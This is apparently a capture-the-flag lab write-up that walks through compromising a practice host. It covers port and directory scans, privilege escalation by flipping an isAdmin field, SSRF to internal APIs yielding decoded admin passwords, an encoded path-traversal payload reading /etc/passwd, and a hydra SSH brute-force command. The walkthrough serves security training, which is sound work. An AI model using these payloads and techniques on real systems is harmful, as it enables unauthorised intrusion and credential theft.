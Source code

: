 
## Nmap initial scan 
```shell
┌──(root㉿kali)-[~]
└─# nmap -sV -sC -p- 10.10.3.152
Starting Nmap 7.93 ( https://nmap.org ) at 2025-01-29 17:42 UTC
Nmap scan report for ip-10-10-3-152.eu-west-1.compute.internal (10.10.3.152)
Host is up (0.0061s latency).
Not shown: 65527 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 f9e471f85ad4d51bc6e9d6b69f828ffe (RSA)
|   256 0767134d0e2de60bd0d51ec30d3fe5ff (ECDSA)
|_  256 516a72d565123b4aabc650c9ece94a37 (ED25519)
25/tcp    open  smtp     Postfix smtpd
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=ip-10-10-31-82.eu-west-1.compute.internal
| Subject Alternative Name: DNS:ip-10-10-31-82.eu-west-1.compute.internal
| Not valid before: 2021-11-10T16:53:34
|_Not valid after:  2031-11-08T16:53:34
|_smtp-commands: mail.filepath.lab, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
110/tcp   open  pop3     Dovecot pop3d
|_pop3-capabilities: UIDL TOP PIPELINING SASL STLS CAPA AUTH-RESP-CODE RESP-CODES
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=ip-10-10-31-82.eu-west-1.compute.internal
| Subject Alternative Name: DNS:ip-10-10-31-82.eu-west-1.compute.internal
| Not valid before: 2021-11-10T16:53:34
|_Not valid after:  2031-11-08T16:53:34
143/tcp   open  imap     Dovecot imapd (Ubuntu)
| ssl-cert: Subject: commonName=ip-10-10-31-82.eu-west-1.compute.internal
| Subject Alternative Name: DNS:ip-10-10-31-82.eu-west-1.compute.internal
| Not valid before: 2021-11-10T16:53:34
|_Not valid after:  2031-11-08T16:53:34
|_imap-capabilities: have ENABLE LOGIN-REFERRALS post-login IDLE listed STARTTLS IMAP4rev1 LITERAL+ capabilities Pre-login ID more LOGINDISABLEDA0001 OK SASL-IR
|_ssl-date: TLS randomness does not represent time
993/tcp   open  ssl/imap Dovecot imapd (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=ip-10-10-31-82.eu-west-1.compute.internal
| Subject Alternative Name: DNS:ip-10-10-31-82.eu-west-1.compute.internal
| Not valid before: 2021-11-10T16:53:34
|_Not valid after:  2031-11-08T16:53:34
|_imap-capabilities: have ENABLE LOGIN-REFERRALS post-login IDLE listed capabilities IMAP4rev1 AUTH=PLAIN Pre-login SASL-IR ID more LITERAL+ OK AUTH=LOGINA0001
995/tcp   open  ssl/pop3 Dovecot pop3d
| ssl-cert: Subject: commonName=ip-10-10-31-82.eu-west-1.compute.internal
| Subject Alternative Name: DNS:ip-10-10-31-82.eu-west-1.compute.internal
| Not valid before: 2021-11-10T16:53:34
|_Not valid after:  2031-11-08T16:53:34
|_pop3-capabilities: UIDL TOP PIPELINING USER SASL(PLAIN LOGIN) CAPA AUTH-RESP-CODE RESP-CODES
|_ssl-date: TLS randomness does not represent time
4000/tcp  open  http     Node.js (Express middleware)
|_http-title: Sign In
50000/tcp open  http     Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: System Monitoring Portal
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 02:33:01:A1:75:F5 (Unknown)
Service Info: Host:  mail.filepath.lab; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.97 seconds

```

we observe that port 50000 is open and host an Apache http server which is a restricted portal
	![](Pasted%20image%2020250129195558.png)

- lets scan the directories to see what we can get from here
``` shell
┌──(root㉿kali)-[~]
└─# gobuster dir  --url http://10.10.3.152:50000/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.3.152:50000/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Timeout:                 10s
===============================================================
2025/01/29 17:57:08 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/index.php            (Status: 200) [Size: 1611]
/javascript           (Status: 301) [Size: 324] [--> http://10.10.3.152:50000/javascript/]
/phpmyadmin           (Status: 403) [Size: 279]
/server-status        (Status: 403) [Size: 279]
/templates            (Status: 301) [Size: 323] [--> http://10.10.3.152:50000/templates/]
/uploads              (Status: 301) [Size: 321] [--> http://10.10.3.152:50000/uploads/]
Progress: 4713 / 4714 (99.98%)===============================================================
2025/01/29 17:57:10 Finished
===============================================================
```

few interesting ones where we have acces however no attack surface was found.
- /templates
	![](Pasted%20image%2020250129200125.png)
- /uploads
	![](Pasted%20image%2020250129200141.png)
- /login.php
	![](Pasted%20image%2020250129201230.png)

 Let s move on port 4000 in order to see if we will find other attack vectors:
  - as it can be observed some credentials are leaked directly on the front page of the app:
	![](Pasted%20image%2020250129201345.png)
- let s scan for more directories for a bigger picture of the app
```shell
root㉿kali)-[~]
└─# gobuster dir  --url http://10.10.3.152:4000/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.3.152:4000/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Timeout:                 10s
===============================================================
2025/01/29 18:14:05 Starting gobuster in directory enumeration mode
===============================================================
/Index                (Status: 302) [Size: 29] [--> /signin]
/fonts                (Status: 301) [Size: 177] [--> /fonts/]
/images               (Status: 301) [Size: 179] [--> /images/]
/index                (Status: 302) [Size: 29] [--> /signin]
/signout              (Status: 302) [Size: 29] [--> /signin]
/signin               (Status: 200) [Size: 1295]
/signup               (Status: 500) [Size: 1246]
Progress: 4423 / 4714 (93.83%)===============================================================
2025/01/29 18:14:09 Finished
===============================================================
```


## Application functionality
- using leaked credentials guest/guest we are logged on the main page:
  ![](Pasted%20image%2020250129201706.png)
  - we can observe some fields (first taught was injecting into the albums fields however we have discovered a more approachable way in a bit)
	![](Pasted%20image%2020250129201840.png)
	- we can tamper with `isAdmin` attribute to see if something happens:
	![](Pasted%20image%2020250129202237.png)
indeed.. setting `isAdmin` attribute on true, we have unlocked two more web page sections (API/Settings)
	![](Pasted%20image%2020250129202305.png)
	**API section:**
		 we see some credentials for the previous app login's page(port:50000) however we need to look around for passwords
	![](Pasted%20image%2020250129202632.png)
	**Settings section:**
	![](Pasted%20image%2020250129221306.png)

Since those are internal API's we need to find out a way to make a request to them using an internal network. After checking the settings tab we find out that we can fetch trough an image upload functionality (is fetching the image from the specified URL and then will upload it) which means that we can use the internal network of the app in order to make requests.

![](Pasted%20image%2020250129221819.png)
	![](Pasted%20image%2020250129222023.png)
```shell
──(root㉿kali)-[~]
└─# echo "eyJSZXZpZXdBcHBVc2VybmFtZSI6ImFkbWluIiwiUmV2aWV3QXBwUGFzc3dvcmQiOiJhZG1pbkAhISEiLCJTeXNNb25BcHBVc2VybmFtZSI6ImFkbWluaXN0cmF0b3IiLCJTeXNNb25BcHBQYXNzd29yZCI6IlMkOSRxazZkIyoqTFFVIn0=" | base64 --decode
{"ReviewAppUsername":"admin","ReviewAppPassword":"admin@!!!","SysMonAppUsername":"administrator","SysMonAppPassword":"S$9$qk6d#**LQU"}       
```

- we are in the administrator front page of SysMonApp
	![](Pasted%20image%2020250129222303.png)

- inspecting the source page we see a possible LFI vulnerability:
	![](Pasted%20image%2020250129222533.png)

## SSH
Let s try various payloads to acces sensitive information trough a LFI poisoning and we applied an encoded path traversal payload as follows:
```shell
....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2Fetc%2Fpasswd
```

![](Pasted%20image%2020250129224431.png)

- now we will try to fuzz SSH one of these accounts using hydra as brute forcer:
```shell
hydra -l joshua -P /usr/share/wordlists/fasttrack.txt <IP> ssh
```

## Summary
Nmap scan revealed an ssh service and two webservers running at port 4000 and 50000. In port 4000, changing the isAdmin field to ‘true’ in the guest account led to administrator privileges subsequently opening an API and settings section. Fetching the API from the settings section gave us base64 encoded admin password for the SysMon login portal at port 50000. Logging in to SysMon portal revealed a dashboard containing the first flag. Checking the source code we found that the profile picture of the admin was a png file that was requested by a query parameter ‘img’. LFI injection revealed the /etc/passwd file which in turn revealed 2 usernames Joshua and Charles. A valid password for joshua was found for SSH login. The second flag was found in the /var/www/html directory.


